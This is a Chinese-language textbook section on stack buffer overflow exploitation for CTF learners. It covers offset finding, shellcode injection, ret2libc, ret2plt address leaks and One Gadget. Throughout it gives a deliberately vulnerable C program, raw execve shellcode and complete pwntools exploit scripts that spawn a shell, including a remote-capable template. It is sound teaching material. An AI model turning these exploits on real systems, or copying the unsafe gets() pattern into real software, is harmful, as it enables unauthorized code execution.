

## 16.1 栈溢出利用技术

栈溢出（Stack Buffer Overflow）是二进制安全中最经典、最基础的漏洞利用技术。自1988年Morris Worm首次利用栈溢出以来，它始终是PWN（二进制漏洞利用）的核心入门技能。理解栈溢出的原理和利用方法，是掌握所有后续高级技术（ROP、堆利用、内核漏洞利用等）的必经之路。

本节从栈的工作机制出发，逐步讲解从最基础的控制返回地址到ret2libc、ret2plt的完整利用链，每种技术都配有可复现的完整Exploit代码和调试分析。

---

### 16.1.1 栈的工作机制回顾

在进入具体利用技术之前，必须彻底理解函数调用时栈上发生了什么。理论基础章节已介绍过内存管理，这里聚焦于与溢出直接相关的栈帧（Stack Frame）细节。

#### x86-64 下的函数调用栈帧

当CPU执行 `call func` 指令时，硬件自动完成两步操作：

1. 将当前指令指针RIP（即`call`指令的下一条指令地址）压入栈中——这就是**返回地址**（Return Address）
2. 跳转到`func`的入口地址

进入被调用函数后，编译器生成的序言代码（Function Prologue）继续操作栈：

```asm
push rbp          ; 保存调用者的栈帧基址
mov rbp, rsp      ; 建立新的栈帧基址
sub rsp, N        ; 为局部变量分配空间（N通常按16字节对齐）
```

由此形成的标准栈帧结构如下（以x86-64为例）：

```text
高地址
┌─────────────────────────┐
│   调用者的栈帧            │
├─────────────────────────┤  ← 调用者栈帧底部
│   参数3 (如果有)          │  [rbp + 24]  (x64中前6个参数用寄存器)
│   参数2 (如果有)          │  [rbp + 16]
│   参数1 (如果有)          │  [rbp + 8]
├─────────────────────────┤
│   返回地址 (8字节)        │  [rbp] + 8   ★ 溢出覆盖目标
├─────────────────────────┤  ← rbp 指向这里
│   saved RBP (8字节)      │  [rbp]
├─────────────────────────┤
│   局部变量 / 缓冲区       │  [rbp - 8]
│   ...                   │  [rbp - 16]
│   ...                   │  [rbp - 24]
│   (可能有对齐填充)        │
├─────────────────────────┤  ← rsp 指向栈顶
低地址
```

**关键理解**：缓冲区在栈上向低地址方向增长，但`gets()`、`strcpy()`等不安全函数从高地址向低地址写入数据。当写入的数据超过缓冲区大小时，会依次覆盖saved RBP和返回地址。

#### x86（32位）与x86-64（64位）的关键差异

| 特性 | x86 (32位) | x86-64 (64位) |
|------|-----------|---------------|
| 指针/地址大小 | 4字节 | 8字节 |
| saved EBP/RBP | 4字节 | 8字节 |
| 返回地址大小 | 4字节 | 8字节 |
| 参数传递 | 全部通过栈 | 前6个通过寄存器（rdi, rsi, rdx, rcx, r8, r9） |
| `p32()`/`p64()` | `p32(addr)` | `p64(addr)` |
| 寄存器名称 | eax, ebx, ecx, edx, edi, esi, ebp, esp | rax, rbx, rcx, rdx, rdi, rsi, rbp, rsp, r8-r15 |

x64的参数通过寄存器传递这一差异，直接影响了利用方式——x64下不能直接通过栈布局传递参数，必须使用gadget（如 `pop rdi; ret`）来设置寄存器值。

---

### 16.1.2 基本栈溢出：控制EIP/RIP

最直接的利用方式：通过溢出覆盖返回地址，使函数返回时跳转到攻击者指定的地址。

#### 漏洞代码示例

```c
// vuln.c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[64];
    gets(buffer);  // 无边界检查，存在栈溢出
}

int main() {
    vulnerable_function();
    return 0;
}

void win() {
    system("/bin/sh");  // 目标：跳转到这里
}
```

编译命令（禁用部分保护以便学习）：

```bash
gcc -o vuln vuln.c -fno-stack-protector -z execstack -no-pie -z norelro -m64
```

各编译选项含义：

| 选项 | 作用 | 安全机制 |
|------|------|---------|
| `-fno-stack-protector` | 禁用栈保护（Canary） | Stack Canary |
| `-z execstack` | 标记栈为可执行 | NX/DEP |
| `-no-pie` | 禁用地址随机化（程序本身） | PIE/ASLR |
| `-z norelro` | 禁用GOT只读保护 | RELRO |
| `-m64` | 编译为64位 | - |

#### 确定偏移量

偏移量是指从缓冲区起始位置到返回地址之间的字节数。确定偏移量是构造payload的第一步，也是最容易出错的一步。

**方法一：pwntools的cyclic pattern（推荐）**

```python
from pwn import *

# 生成唯一标识序列
pattern = cyclic(200)
# 例如：aaaabaaacaaadaaaeaaafaaagaaahaaa...

# 让程序崩溃后，查看RIP/EIP的值
# 假设崩溃时RIP = 0x6161616161616168 (即 "haaaaaaa")
# 反推偏移量
offset = cyclic_find(0x6161616161616168)
print(f"偏移量: {offset}")  # 输出: 偏移量: 72
```

在GDB中触发崩溃并查看RIP：

```bash
gdb ./vuln
(gdb) r <<< $(python3 -c "from pwn import *; print(cyclic(200).decode())")
# 程序崩溃后
(gdb) info registers rip
# 假设 rip = 0x6161616161616168
```

**方法二：手动计算**

对于简单的栈布局：

```text
偏移量 = sizeof(buffer) + 可能的对齐填充 + sizeof(saved_rbp)
```

本例中：`64 (buffer) + 0 (无额外对齐) + 8 (saved RBP) = 72`

> **注意**：实际偏移量可能因为编译器优化、栈对齐等因素与源码中的数组大小不一致。**永远用cyclic pattern实测确认，不要依赖手动计算**。

**方法三：pattern_search（pwntools新版本）**

```python
# 如果用coredump分析
core = Coredump('./core')
offset = cyclic_find(core.rip)  # 直接用coredump中的RIP值
```

#### 完整Exploit

```python
from pwn import *

context.log_level = 'debug'   # 显示详细交互信息
context.arch = 'amd64'         # 目标架构

# 加载目标程序
elf = ELF('./vuln')
p = process('./vuln')

# 获取目标函数地址（程序未开启PIE，地址固定）
win_addr = elf.symbols['win']
log.info(f"win() 地址: {hex(win_addr)}")

# 构造payload
offset = 72
payload = b'A' * offset
payload += p64(win_addr)       # 覆盖返回地址为win()

p.sendline(payload)
p.interactive()                # 获得交互式shell
```

#### 没有现成的"win"函数怎么办？

实际CTF题目和真实程序中，通常没有方便的`win()`函数。此时需要根据NX保护的开启情况选择不同的利用策略：

- **NX关闭**（栈可执行）→ 直接注入shellcode（16.1.3节）
- **NX开启** → 使用ret2libc或ret2plt（16.1.4、16.1.5节）
- **NX开启 + Full RELRO + PIE** → 需要先泄露地址，构造ROP链

---

### 16.1.3 Shellcode注入

当NX（No-eXecute）保护关闭时，栈上的数据可以被当作指令执行。此时可以直接将shellcode注入栈中，然后控制返回地址跳转到shellcode所在位置。

#### Shellcode是什么

Shellcode是一段精心构造的机器码，执行后通常会`execve("/bin/sh", NULL, NULL)`来获取shell。之所以叫"shellcode"，是因为最早的目标就是获取一个shell。

#### x64 Linux execve Shellcode 详解

下面是最常见的`execve("/bin/sh")` shellcode的汇编源码：

```asm
; x64 Linux execve("/bin/sh", NULL, NULL)
; 系统调用号: 59 (execve)
; 参数: rdi = filename, rsi = argv, rdx = envp

xor    rsi, rsi        ; rsi = 0 (argv = NULL)
xor    rdx, rdx        ; rdx = 0 (envp = NULL)
mov    rax, 0x68732f6e69622f  ; rax = "/bin/sh\0" (注意字节序)
push   rax
mov    rdi, rsp        ; rdi = 指向"/bin/sh"的指针
xor    rax, rax
mov    al, 59          ; syscall号: execve = 59
syscall                ; 触发系统调用
```

对应的机器码（shellcode）：

```python
# 手写shellcode（约30字节）
shellcode = (
    b"\x48\x31\xf6"                    # xor rsi, rsi
    b"\x48\x31\xd2"                    # xor rdx, rdx
    b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00"  # mov rax, "/bin/sh\0"
    b"\x50"                            # push rax
    b"\x48\x89\xe7"                    # mov rdi, rsp
    b"\x48\x31\xc0"                    # xor rax, rax
    b"\xb0\x3b"                        # mov al, 59
    b"\x0f\x05"                        # syscall
)
```

使用pwntools自动生成（推荐）：

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())   # 自动生成，等价于上面的手写版本
print(f"Shellcode长度: {len(shellcode)} 字节")
# 通常约44字节（pwntools的版本更长但更通用）
```

#### 确定Shellcode在栈上的地址

注入shellcode后，需要知道它在内存中的确切地址才能跳转。几种常见方法：

**方法一：相对偏移跳转（最稳定）**

```python
# payload结构：padding + RBP覆盖 + shellcode地址 + shellcode
# 如果溢出可以覆盖到shellcode，把shellcode放在返回地址之后

offset = 72
shellcode = asm(shellcraft.sh())

payload = b'A' * offset                  # 填充到返回地址
payload += p64(0x0)                       # 覆盖saved RBP（不重要）
# 注意：实际是先覆盖返回地址再是后续内容
# 重新组织payload结构：

# 方法A：shellcode放在缓冲区中
payload = shellcode                       # shellcode在缓冲区头部
payload += b'A' * (offset - len(shellcode))  # 填充剩余空间
payload += p64(buffer_addr)               # 跳转到缓冲区起始地址

# 方法B：shellcode放在返回地址之后（更常见）
payload = b'A' * offset
payload += p64(ret_addr_to_shellcode)     # 返回地址指向后面的shellcode
payload += shellcode                      # shellcode紧跟在返回地址之后
```

**方法二：使用GDB确定地址**

```bash
gdb ./vuln
(gdb) b vulnerable_function
(gdb) r
# 在gets()调用前查看buffer地址
(gdb) p &buffer
# 或者直接查看RSP
(gdb) info registers rsp
# 根据栈布局推算buffer的地址
```

**方法三：在gdb中调试确认**

```python
# 先用cyclic确定偏移，然后用GDB单步跟踪
# 在gdb中输入payload后观察RIP是否跳转到预期地址
```

#### 坏字符（Bad Characters）处理

不同的输入函数对特殊字符有不同限制。例如：

| 输入函数 | 坏字符 | 说明 |
|---------|--------|------|
| `gets()` | `\n` (0x0a) | 遇到换行停止读取 |
| `strcpy()` | `\x00` (null) | 遇到null终止复制 |
| `scanf("%s")` | `\x00`, `\x09`, `\x0a`, `\x20` | 空白字符终止 |
| `read()` | 无 | 读取指定字节数，无坏字符 |

处理坏字符的方法：

```python
# 方法一：pwntools生成时排除坏字符
shellcode = asm(shellcraft.sh())
assert b'\x00' not in shellcode    # 检查是否包含坏字符

# 方法二：使用编码器
# pwntools的encoder模块
from pwn import *
context.arch = 'amd64'
encoded_shellcode = asm(shellcraft.sh())

# 如果包含坏字符，尝试不同的shellcode变体
# 或使用msfvenom生成无坏字符的shellcode：
# msfvenom -p linux/x64/exec CMD=/bin/sh -b '\x00\x0a' -f python
```

#### 完整Shellcode注入Exploit

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

elf = ELF('./vuln')
p = process('./vuln')

# 生成shellcode
shellcode = asm(shellcraft.sh())
log.info(f"Shellcode长度: {len(shellcode)} 字节")

# 假设通过GDB确定buffer地址为 0x7fffffffe3c0
# 偏移量72 = 64(buffer) + 8(saved RBP)
# 将shellcode放在buffer开头，返回地址指向buffer

buffer_addr = 0x7fffffffe3c0  # 需要实际调试获取

payload = shellcode
payload += b'A' * (72 - len(shellcode))  # 填充到返回地址
payload += p64(buffer_addr)               # 覆盖返回地址

p.sendline(payload)
p.interactive()
```

> **实战提示**：在有ASLR的环境中，栈地址每次运行都不同，无法硬编码`buffer_addr`。此时需要结合信息泄露或使用jmp rsp等技巧。一种常用方法是在程序中搜索 `jmp rsp` 或 `call rsp` 指令的地址，将返回地址覆盖为该地址，shellcode紧跟其后。

#### 使用jmp rsp技巧（绕过ASLR）

```python
# 当栈地址未知时，搜索程序中的jmp rsp指令
jmp_rsp = next(elf.search(asm('jmp rsp')))
log.info(f"jmp rsp 地址: {hex(jmp_rsp)}")

payload = b'A' * offset
payload += p64(jmp_rsp)    # 覆盖返回地址为jmp rsp
payload += shellcode       # shellcode紧跟返回地址之后
# jmp rsp会跳转到当前rsp位置，即shellcode的起始处
```

---

### 16.1.4 ret2libc

当NX保护开启时，栈上的数据不可执行，无法直接注入shellcode。ret2libc（Return-to-libc）技术通过复用程序已链接的libc库中的函数来实现攻击。

#### 原理

每个C程序运行时都会加载libc（C标准库），其中包含`system()`、`execve()`等危险函数。即使栈不可执行，这些函数本身是可执行的——它们位于libc的代码段中。

攻击思路：

1. 通过溢出覆盖返回地址为`system()`的地址
2. 在栈上布置`system()`的参数（`"/bin/sh"`的地址）
3. 函数返回时跳转到`system()`，执行`system("/bin/sh")`

#### x86（32位）下的ret2libc

32位程序的参数通过栈传递，利用非常直观：

```text
栈布局：
┌──────────────────┐
│  填充 (offset字节)  │
├──────────────────┤  ← 返回地址位置
│  system() 地址     │  覆盖返回地址
├──────────────────┤
│  假返回地址        │  system()的返回地址（可以是任意值）
├──────────────────┤
│  "/bin/sh" 地址    │  system()的参数
└──────────────────┘
```

```python
from pwn import *

context.arch = 'i386'
elf = ELF('./vuln')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')  # 目标的libc

p = process('./vuln')

# 方法一：程序中直接有system()和"/bin/sh"（未开启PIE）
system_addr = elf.plt['system']          # 或直接硬编码
bin_sh_addr = next(elf.search(b'/bin/sh'))  # 在程序中搜索字符串

payload = b'A' * offset
payload += p32(system_addr)              # 覆盖返回地址
payload += p32(0xdeadbeef)               # system()的假返回地址
payload += p32(bin_sh_addr)              # system()的参数

p.sendline(payload)
p.interactive()
```

#### x86-64（64位）下的ret2libc

64位程序的前6个参数通过寄存器传递（rdi, rsi, rdx, rcx, r8, r9），因此需要先用gadget设置rdi寄存器。

```text
栈布局：
┌──────────────────┐
│  填充 (offset字节)  │
├──────────────────┤  ← 返回地址位置
│  pop rdi; ret     │  gadget地址
├──────────────────┤
│  "/bin/sh" 地址    │  被pop到rdi中
├──────────────────┤
│  system() 地址     │  gadget的ret跳转到这里
└──────────────────┘
```

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./vuln')

# 寻找 pop rdi; ret gadget
# 机器码: 5f c3
pop_rdi_ret = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
# 或者用 ROPgadget 工具：
# ROPgadget --binary ./vuln | grep "pop rdi"

system_addr = elf.plt['system']
bin_sh_addr = next(elf.search(b'/bin/sh'))

payload = b'A' * offset
payload += p64(pop_rdi_ret)    # gadget: pop rdi; ret
payload += p64(bin_sh_addr)    # rdi = "/bin/sh" 的地址
payload += p64(system_addr)    # 跳转到 system()

p.sendline(payload)
p.interactive()
```

#### 使用libc中的地址（需要泄露libc基址）

当程序开启了PIE，或者libc中的符号地址在每次运行时不同（ASLR），需要先泄露libc的基地址。这通常通过ret2plt技术实现（见16.1.5节），泄露后再计算目标函数地址：

```python
# 泄露libc地址后的计算
libc_base = leaked_addr - libc.symbols['puts']   # 用已知偏移反推基址
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.info(f"libc基址: {hex(libc_base)}")
log.info(f"system(): {hex(system_addr)}")
log.info(f"'/bin/sh': {hex(bin_sh_addr)}")
```

#### One Gadget

除了`system("/bin/sh")`，还有一种更简洁的方法：使用One Gadget。One Gadget是libc中某个特定地址，跳转到该地址后，只要满足若干约束条件（如某些寄存器为0），就能直接执行`execve("/bin/sh", NULL, NULL)`，无需构造参数。

```bash
# 安装one_gadget
gem install one_gadget

# 查找libc中的one_gadget
one_gadget /lib/x86_64-linux-gnu/libc.so.6
# 输出示例：
# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL
#
# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
```

使用One Gadget的Exploit更简洁：

```python
# 无需设置参数，直接跳转到one_gadget地址
one_gadget_offset = 0x4f3d5  # 从工具输出中获取
one_gadget_addr = libc_base + one_gadget_offset

payload = b'A' * offset
payload += p64(one_gadget_addr)  # 直接跳转，无需pop rdi等gadget

# 注意：需要满足约束条件，通常通过多次尝试或调整栈布局来实现
```

> **实战经验**：如果一个one_gadget不满足约束条件，换另一个试试。通常libc中有3-5个one_gadget地址，总有一个能满足。也可以通过在前面加上`ret`指令gadget来调整栈对齐（RSP对齐到16字节），有时能满足约束。

---

### 16.1.5 ret2plt

ret2plt（Return-to-PLT）是一种在ASLR开启且无法直接获取libc地址时使用的利用技术。它通过调用程序本身PLT表中的库函数来完成攻击。

#### PLT和GOT机制回顾

- **PLT（Procedure Linkage Table）**：过程链接表，存放跳转到GOT表项的桩代码。程序首次调用外部函数时，通过PLT触发延迟绑定（Lazy Binding），解析函数的真实地址并写入GOT。
- **GOT（Global Offset Table）**：全局偏移表，存放外部函数的真实地址。第一次调用后，GOT中存放的就是libc中的实际地址。

PLT表项的地址在程序加载后固定（即使开了PIE，PLT相对于程序基址的偏移也是固定的），可以作为跳板调用已链接的库函数。

#### 利用思路

ret2plt最常见的用途是**泄露libc地址**，分为两步：

**第一步：泄露（Leak）**

通过`puts@plt`或`printf@plt`打印某个GOT表项的值，获取该函数在libc中的真实地址。

```python
# 第一步：泄露puts的真实地址
# 需要一个 pop rdi; ret gadget
payload1 = b'A' * offset
payload1 += p64(pop_rdi_ret)     # gadget: pop rdi; ret
payload1 += p64(puts_got)        # GOT表中puts的条目（包含puts的真实地址）
payload1 += p64(puts_plt)        # 调用 puts(puts_got)，即打印puts的真实地址
payload1 += p64(main_addr)       # 返回到main，进行第二次利用

p.sendline(payload1)

# 读取泄露的地址
leaked = p.recvuntil(b'\n')
# 处理可能的换行符和空字节
puts_addr = u64(leaked.strip().ljust(8, b'\x00'))
log.info(f"puts真实地址: {hex(puts_addr)}")
```

**第二步：计算并利用**

```python
# 第二步：计算libc基址，构造ret2libc
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.info(f"libc基址: {hex(libc_base)}")
log.info(f"system(): {hex(system_addr)}")

# 第二次溢出（此时程序已回到main，可以再次触发溢出）
payload2 = b'A' * offset
payload2 += p64(pop_rdi_ret)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.sendline(payload2)
p.interactive()
```

#### 选择泄露哪个函数

不是所有函数的GOT表项都适合泄露。选择标准：

| 条件 | 说明 |
|------|------|
| 函数已被调用过 | GOT表项中存放的是真实地址而非PLT桩代码 |
| libc中的偏移已知 | 需要对应版本的libc.so |
| 输出不含坏字符 | puts遇到`\x00`停止输出，泄露地址中可能含有 |

推荐泄露顺序：`puts` > `write` > `printf` > `__libc_start_main`

**`puts`的局限**：`puts()`遇到null字节（`\x00`）就停止输出。由于x64地址的高位通常包含`\x00`（如`0x00007f...`），这通常不是问题——高位的null在strip()时会被去掉。但如果地址中间包含null（如`0x0000000...`），则泄露可能不完整。

**使用`write()`泄露（更可靠）**：

```python
# write(1, got_addr, 8) 可以精确输出8字节，不受null影响
# 但需要控制rdx（第三个参数），比puts复杂
payload = b'A' * offset
payload += p64(pop_rdi_ret)      # pop rdi; ret
payload += p64(1)                # rdi = 1 (stdout)
payload += p64(pop_rsi_r15_ret)  # pop rsi; pop r15; ret
payload += p64(write_got)        # rsi = GOT表项地址
payload += p64(0)                # r15 = 0 (垃圾值)
payload += p64(write_plt)        # 调用 write(1, write_got, 8)
# 注意：write的第三个参数rdx需要在调用前已经设置好
# 有时rdx恰好足够大（>=8），则无需额外设置
```

#### ret2libc与ret2plt的对比

| 维度 | ret2libc | ret2plt |
|------|----------|---------|
| 前提条件 | 知道libc中函数地址 | 只需要程序本身的PLT/GOT |
| ASLR影响 | 需要先泄露libc基址 | 可以直接使用PLT地址 |
| 适用场景 | libc地址已知或已泄露 | 需要泄露阶段时作为跳板 |
| 复杂度 | 一步到位 | 通常需要两步（泄露+利用） |
| 典型用法 | 最终执行system/shell | 第一步泄露地址 |

在实际利用中，ret2plt和ret2libc通常**配合使用**：先用ret2plt泄露libc地址，再用ret2libc获取shell。

---

### 16.1.6 栈溢出利用的完整流程

将上述技术整合为一个标准化的利用流程：



#### 使用pwntools的自动化脚本模板

```python
#!/usr/bin/env python3
"""栈溢出利用模板 - 适用于最常见的ret2libc场景"""
from pwn import *

# ====== 配置 ======
context.arch = 'amd64'
context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-h']

# ====== 加载目标 ======
elf = ELF('./vuln')
libc = ELF('./libc.so.6')    # 目标机器的libc（从题目获取或通过泄露确定）

if args.REMOTE:
    p = remote('challenge.example.com', 1337)
elif args.GDB:
    p = gdb.debug('./vuln', '''
        b vulnerable_function
        c
    ''')
else:
    p = process('./vuln')

# ====== 工具函数 ======
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]  # 用于栈对齐
log.success(f"pop rdi; ret @ {hex(pop_rdi)}")

# ====== 第一阶段：泄露libc地址 ======
offset = 72  # cyclic确定

payload1 = b'A' * offset
payload1 += p64(pop_rdi)
payload1 += p64(elf.got['puts'])      # puts的GOT表项
payload1 += p64(elf.plt['puts'])      # 调用puts
payload1 += p64(elf.symbols['main'])  # 回到main再次利用

p.sendlineafter(b'> ', payload1)
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"puts @ {hex(leaked_puts)}")

# ====== 计算libc地址 ======
libc_base = leaked_puts - libc.symbols['puts']
libc.address = libc_base
log.success(f"libc base @ {hex(libc_base)}")

# ====== 第二阶段：获取shell ======
payload2 = b'A' * offset
payload2 += p64(ret)                  # 栈对齐（有时需要）
payload2 += p64(pop_rdi)
payload2 += p64(next(libc.search(b'/bin/sh')))
payload2 += p64(libc.symbols['system'])

p.sendlineafter(b'> ', payload2)
p.interactive()
```

> **提示**：脚本中加入了`ret`指令进行栈对齐。x64下`system()`内部使用了SSE指令，要求RSP 16字节对齐，如果不满足会触发SIGSEGV。在`pop rdi`之前加一个`ret`可以将RSP调整8字节，解决对齐问题。这是新手最常遇到的"明明地址正确却崩溃"的原因之一。

---

### 16.1.7 常见问题与调试技巧

#### 问题一：地址正确但执行崩溃

**症状**：GDB中确认返回地址被正确覆盖，但跳转后立即崩溃。

**排查清单**：

1. **栈对齐问题**（最常见）：在跳转到`system()`前加一个`ret` gadget
2. **地址计算错误**：确认libc版本匹配，确认偏移计算正确
3. **GOT表未解析**：调用的函数从未被执行过，GOT中还是PLT桩代码
4. **ASLR**：调试时用`set disable-randomization off`开启ASLR测试

```bash
# GDB中检查栈对齐
(gdb) p/x $rsp
# 如果rsp不以0结尾（不是16字节对齐），需要加ret gadget

# 检查GOT表项是否已解析
(gdb) x/gx 0x601020   # GOT表地址
# 如果值指向PLT桩代码（如0x400406），说明函数还未被调用
```

#### 问题二：接收不到泄露的数据

**症状**：payload发送成功，但`recv()`超时或收到不完整数据。

**常见原因**：

- `puts()`遇到`\x00`停止输出，泄露的地址可能被截断
- 程序输出了额外的换行或空格，导致解析出错
- 需要先接收完程序的提示信息再接收泄露数据

```python
# 更健壮的接收方式
p.recvuntil(b'output: ')           # 先跳过程序的提示
leaked_raw = p.recvline()           # 接收一行
leaked_clean = leaked_raw.strip()   # 去除首尾空白
leaked_addr = u64(leaked_clean.ljust(8, b'\x00'))

# 如果puts泄露不完整（高位null被截断），尝试write
```

#### 问题三：offset计算不准

**症状**：返回地址覆盖不完整，跳转到错误地址。

```python
# 验证偏移量的方法
from pwn import *
context.arch = 'amd64'

# 生成测试payload
offset = 72  # 假设偏移
payload = b'A' * offset + p64(0x4142434445464748)

# 在GDB中运行
# gdb-peda: pattern offset $rsp  或  pattern search $rsp
# pwndbg:  pwndbg> distance $rsp <buffer_addr>
#          或 pwndbg> search -p 0x4142434445464748
```

#### 问题四：程序中没有"/bin/sh"字符串

```python
# 在libc中搜索
bin_sh = next(libc.search(b'/bin/sh'))
# 或者自行构造字符串到可控区域（如BSS段）
# 需要先用read()或gets()将"/bin/sh"写入BSS，再用该地址调用system
```

---

### 16.1.8 拓展：栈溢出的变体与进阶

#### Off-by-One溢出

当溢出只能覆盖1个额外字节时（例如使用`strncpy`但长度计算错误1字节），可能覆盖saved RBP的最低字节，导致栈帧指针偏移，间接控制后续的栈布局。

```python
# Off-by-one覆盖saved RBP的最低字节
# 将saved RBP修改为受控地址，后续函数的局部变量访问
# 会使用错误的RBP，可能写入攻击者控制的地址
```

#### 部分覆盖（Partial Overwrite）

在PIE开启时，由于虚拟地址的低12位（页内偏移）不变，可以只覆盖返回地址的最低1-2字节，跳转到同一页面内的其他函数：

```python
# PIE开启，但页内偏移固定
# 只覆盖返回地址的最低2字节
payload = b'A' * offset
payload += p16(0x1234)     # 只覆盖低2字节，高位保持不变
# 可以跳转到同一4KB页面内的任意地址
```

#### 格式化字符串配合栈溢出

当程序同时存在格式化字符串漏洞和栈溢出时，可以先用格式化字符串泄露栈地址和canary，再用栈溢出执行攻击。这部分内容在实战案例章节有详细讲解。

---

### 16.1.9 本节小结

| 技术 | 前提条件 | 目标 | 复杂度 |
|------|---------|------|--------|
| 基本栈溢出 | 存在溢出 + 有目标函数 | 跳转到指定函数 | ★☆☆ |
| Shellcode注入 | NX关闭 | 在栈上执行shellcode | ★★☆ |
| ret2libc（已知地址） | NX开启 + libc地址已知 | 调用system("/bin/sh") | ★★☆ |
| ret2plt → ret2libc | NX开启 + ASLR开启 | 泄露libc后调用system | ★★★ |
| One Gadget | libc地址已知 | 直接跳转到execve | ★★☆ |

**核心认知**：栈溢出利用的本质是**控制程序的执行流**——通过覆盖返回地址（或函数指针等间接跳转目标），让程序跳转到攻击者期望的位置执行。后续的ROP、栈迁移等技术都是在这一基础上应对更严格的防护机制。

**下一步学习路径**：

- **ROP**（16.2节）：当没有可用的`system()`函数时，通过拼接gadget构造任意操作
- **栈迁移**（16.4节）：当栈空间不足时，将栈指针迁移到可控区域
- **防护机制与绕过**（16.6节）：深入理解Canary、ASLR、PIE的绕过方法
